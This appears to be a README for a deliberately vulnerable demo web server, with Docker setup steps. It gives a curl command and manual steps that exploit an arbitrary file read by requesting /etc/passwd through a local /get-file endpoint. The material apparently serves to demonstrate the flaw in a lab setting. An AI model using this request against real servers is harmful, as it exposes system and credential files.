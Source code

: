 ## Setup 
1. Git Clone this repo 
2. cd ubiquitous-eureka/  
3. docker build -t server . 
4. docker run -p5000:5000 server

## Curl Exploit Command 
curl 'http://127.0.0.1:5000/get-file' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://127.0.0.1:5000' \
  -H 'Referer: http://127.0.0.1:5000/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --data-raw 'filename=%2Fetc%2Fpasswd'

  ## Manual Exploit Steps 
  1. Enter /etc/passwd or another file in the "Enter a filename to fetch:" form and hit query
